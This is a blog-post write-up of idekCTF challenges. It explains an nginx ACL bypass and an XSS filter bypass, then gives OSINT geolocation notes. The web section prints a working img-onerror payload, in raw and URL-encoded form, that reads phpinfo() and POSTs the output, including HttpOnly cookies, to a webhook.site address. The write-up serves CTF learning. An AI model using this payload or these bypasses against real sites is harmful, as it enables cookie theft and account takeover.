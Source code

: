 ```yaml
---
layout: post
title: idekCTF Web and OSINT Writeup
tags: [ctf, ctf writeup, ctf web, ctf misc, ctf osint, ctf geoguessr]
---
```


Notes on solving the web challenge and some GeoGuessr-style challenges (had a lot of luck).

## web/Hello

### Solution TLDR

- Bypass XSS characters filter
- Bypass nginx ACL rules for PHP

### Challenge and Solution

Relatively easy challenge, with 161 solves. I built the payload iteratively to bypass the restrictions.

Challenge goal is to get the flag set by the admin bot in the "HttpOnly" cookie. The `index.php` page is XSS-able, and and `info.php` page dumps `phpinfo()`, which shows the cookies in the request, including HttpOnly cookies.

```nginx
location = /info.php {
    allow 127.0.0.1;
    deny all;
}

location ~ \.php$ {
    root           /usr/share/nginx/html;
    fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
    include fastcgi_params;  
    fastcgi_pass unix:/var/run/php/php8.2-fpm.sock;
}
```

However, as shown above, `nginx.conf` blocks access to `info.php`, and admin bot cannot acess it either. Referencing to [HackTricks](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass), it can be bypassed with `http://idek-hello.chal.idek.team:1337/info.php/a.php`, where nginx does not match to `location = /info.php`, instead it matches to `location ~ \.php$` and PHP FPM processes with `info.php`.

```php
function Enhanced_Trim($inp) {
    $trimmed = array("\r", "\n", "\t", "/", " ");
    return str_replace($trimmed, "", $inp);
}

if(isset($_GET['name']))
{
    $name=substr($_GET['name'],0,23);
    echo "Hello, ".Enhanced_Trim($_GET['name']);
}
```

`index.php` is XSS injectable, however it does not allow some characters. It was not able to have `</script>` closing tag, and I did not get `script` tag without closing tag or using `\` instead of `/` in the closing tag work. I used `<img>` tag with `onerror` to make the script to run (`src` attribute was necessary too).

The tag looks like this:

```html
<img src=a onerror="fetch('\\info.php\\a.php').then(r=>r.text()).then(r=>fetch('https:\\\\webhook.site\\[REDACTED]',{method:'POST',body:r}))">
```

The `/` in the URLs above are replaced with `\` to bypass the filter (`\\` because of escape. It was only escaped once in JavaScript, HTML does not use `/` escape), and it still works.

Replacing space `%20` with `%0C` to bypass filter, and the encoded payload for admin bot is below:

```
http://idek-hello.chal.idek.team:1337/?name=%3Cimg%0Csrc%3Da%0Conerror%3D%22fetch%28%27%5C%5Cinfo%2Ephp%5C%5Ca%2Ephp%27%29%2Ethen%28r%3D%3Er%2Etext%28%29%29%2Ethen%28r%3D%3Efetch%28%27https%3A%5C%5C%5C%5Cwebhook%2Esite%5C%5C%5BREDACTED%5D%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Ar%7D%29%29%22%3E%0A
```

## misc/NM~~PZ~~~ (GeoGuessr-style)

This is some notes on my process of solving some of the challenges with the team (also with a lot of luck involved). It may contain some errors due to limited knowledge on different locations, and just write about observations and knowledge gathered during solving the challenge.

*Image sizes are reduced in the blogpost.*

### beach_property (medium, Brazil)

Find the very unique-looking building, screenshot and search the image with Google Lens, find it to be the Veleiros Mar hotel in São Luís, Brazil. Then my teammate marked the location on the map to complete this task.

![Screenshot of Veleiros Mar hotel in the challenge](/assets/image/idekctf2024/veleiros-mar.png)

### idek_islands (medium, U.S. Virgin Islands)

Teammates identified through meta (Google car etc.) the location is in U.S. Virgin Islands, and likely to be in the island in the north. The location is by the coast, with coastline kinda concaves, and with buildings nearby. The shadows points inwards the land.

I started searching through the south coast of the two main islands in the north of U.S. Virgin Islands, by looking at the street view coverage finding the roads close to coast, and sometimes enter into street view to check. Eventually found a road with street view coverage near the coast, and the buildings in the satellite view looks matching the ones in the image. It did not take too long. Entered street view and confirmed the location matches.

### rise_above (hard, Indonesia)

It took a long time to solve this one.

Teammates identified the location in in Indonesia. There is top of a church in the image, signs on the other building saying "RUMAH KEPALA JAGA 1", and teammate also identified the "Indonesian Democratic Party of Struggle" flag in the image.

I position Google maps at Indonesia and looked up "rumah kepala jaga", it showed the name with other numbers but not "1". I looked through some of the locations however non of them was the location. They were mostly located east-most of Sulawesi Utara on one of the main island. There were also a village with many of the same flags in the image, however that village had a church looked different. Then I zoomed out the map a bit and looked up "church" in the area, and the 2nd church I clicked on and entered street view to see was the church I was looking for (extremely lucky I guess).
